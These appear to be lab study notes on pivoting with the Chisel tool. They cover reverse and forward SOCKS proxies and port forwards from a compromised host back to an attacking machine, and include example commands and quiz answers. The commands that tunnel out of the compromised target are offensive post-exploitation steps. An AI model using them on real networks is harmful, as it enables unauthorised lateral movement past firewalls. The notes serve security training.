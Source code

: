 [Chisel](https://github.com/jpillora/chisel) is an awesome tool which can be used to quickly and easily set up a tunneled proxy or port forward through a compromised system, regardless of whether you have SSH access or not. It's written in Golang and can be easily compiled for any system (with static release binaries for Linux and Windows provided). In many ways it provides the same functionality as the standard SSH proxying / port forwarding we covered earlier; however, the fact *it doesn't require SSH access on the compromised target* is a big bonus.

Before we can use chisel, we need to download appropriate binaries from the tool's [Github release page](https://github.com/jpillora/chisel/releases). These can then be unzipped using `gunzip`, and executed as normal:

![[Chisel-20241209145423168.webp]]

You must have an appropriate copy of the chisel binary on _both the attacking machine and the compromised server._ Copy the file to the remote server with your choice of file transfer method. You could use the webserver method covered in the previous tasks, or to shake things up a bit, you could use SCP:  
`scp -i KEY chisel user@target:/tmp/chisel-USERNAME`


---

The chisel binary has two modes: _client_ and _server_. You can access the help menus for either with the command: `chisel client|server --help`  
e.g:

![[Chisel-20241209145533999.webp]]

We will be looking at two uses for chisel in this task (a SOCKS proxy, and port forwarding); however, chisel is a very versatile tool which can be used in many ways not described here. You are encouraged to read through the help pages for the tool for this reason.


---

## Reverse SOCKS Proxy

Let's start by looking at setting up a reverse SOCKS proxy with chisel. This connects _back_ from a compromised server to a listener waiting on our attacking machine.  

On our own attacking box we would use a command that looks something like this:  
`./chisel server -p LISTEN_PORT --reverse &   `

This sets up a listener on your chosen `LISTEN_PORT`.  

On the compromised host, we would use the following command:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:socks &`  

This command connects back to the waiting listener on our attacking box, completing the proxy. As before, we are using the ampersand symbol (`&`) to background the processes.

![[Chisel-20241209145727324.webp]]

Notice that, despite connecting back to port 1337 successfully, the actual proxy has been opened on `127.0.0.1:1080`. As such, we will be using port 1080 when sending data through the proxy.

Note the use of `R:socks` in this command. "R" is prefixed to _remotes_ (arguments that determine what is being forwarded or proxied -- in this case setting up a proxy) when connecting to a chisel server that has been started in reverse mode. It essentially tells the chisel client that the server anticipates the proxy or port forward to be made at the client side (e.g. starting a proxy on the compromised target running the client, rather than on the attacking machine running the server). Once again, reading the chisel help pages for more information is recommended.

## Forward SOCKS Proxy

Forward proxies are rarer than reverse proxies for the same reason as reverse shells are more common than bind shells; generally speaking, egress firewalls (handling outbound traffic) are less stringent than ingress firewalls (which handle inbound connections). That said, it's still well worth learning how to set up a forward proxy with chisel.  

In many ways the syntax for this is simply reversed from a reverse proxy.

First, on the compromised host we would use:  
`./chisel server -p LISTEN_PORT --socks5`  

On our own attacking box we would then use:  
`./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`  

In this command, `PROXY_PORT` is the port that will be opened for the proxy.

For example, `./chisel client 172.16.0.10:8080 1337:socks` would connect to a chisel server running on port 8080 of 172.16.0.10. A SOCKS proxy would be opened on port 1337 of our attacking machine.

## Proxychains Reminder

When sending data through either of these proxies, we would need to set the port in our proxychains configuration. As Chisel uses a SOCKS5 proxy, we will also need to change the start of the line from `socks4` to `socks5`:  
```
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks5  127.0.0.1 1080
```



> [!Note]
>The above configuration is for a reverse SOCKS proxy -- as mentioned previously, the proxy opens on port 1080 rather than the specified listening port (1337). If you use proxychains with a forward proxy then the port should be set to whichever port you opened (1337 in the above example).

## Remote Port Forward

A remote port forward is when we connect back from a compromised target to create the forward.  

For a remote port forward, on our attacking machine we use the exact same command as before:  
`./chisel server -p LISTEN_PORT --reverse &`

Once again this sets up a chisel listener for the compromised host to connect back to.  
The command to connect back is slightly different this time, however:  
`./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &`

You may recognise this as being very similar to the SSH reverse port forward method, where we specify the local port to open, the target IP, and the target port, separated by colons. Note the distinction between the `LISTEN_PORT` and the `LOCAL_PORT`. Here the `LISTEN_PORT` is the port that we started the chisel server on, and the `LOCAL_PORT` is the port we wish to open on our own attacking machine to link with the desired target port.  

To use an old example, let's assume that our own IP is 172.16.0.20, the compromised server's IP is 172.16.0.5, and our target is port 22 on 172.16.0.10. The syntax for forwarding 172.16.0.10:22 back to port 2222 on our attacking machine would be as follows:  
`./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &`  

Connecting back to our attacking machine, functioning as a chisel server started with:  
`./chisel server -p 1337 --reverse &`  

This would allow us to access 172.16.0.10:22 (via SSH) by navigating to 127.0.0.1:2222.

## Local Port Forward

As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.

On the compromised target we set up a chisel server:  
`./chisel server -p LISTEN_PORT`  

We now connect to this from our attacking machine like so:  
`./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`  

For example, to connect to 172.16.0.5:8000 (the compromised host running a chisel server), forwarding our local port 2222 to 172.16.0.10:22 (our intended target), we could use:  
`./chisel client 172.16.0.5:8000 2222:172.16.0.10:22`

## Closing chisel connections

As with the backgrounded socat processes, when we want to destroy our chisel connections we can use `jobs` to see a list of backgrounded jobs, then `kill %NUMBER` to destroy each of the chisel processes.


> [!Note]
>When using Chisel on Windows, it's important to remember to upload it with a file extension of `.exe` (e.g. `chisel.exe`)!


> [!Question]
>1. What command would you use to start a chisel server for a reverse connection on your attacking machine? Use port 4242 for the listener and **do not** background the process.
>`./chisel server -p 4242 --reverse`
>2. What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?
>`./chisel client 172.16.0.200:4242 R:socks &`
>3. How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.
>`./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &`
>5. If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?
>`./chisel client 172.16.0.5:4444 8000:172.16.0.10:80`

**Next step:** [[sshuttle]]

 
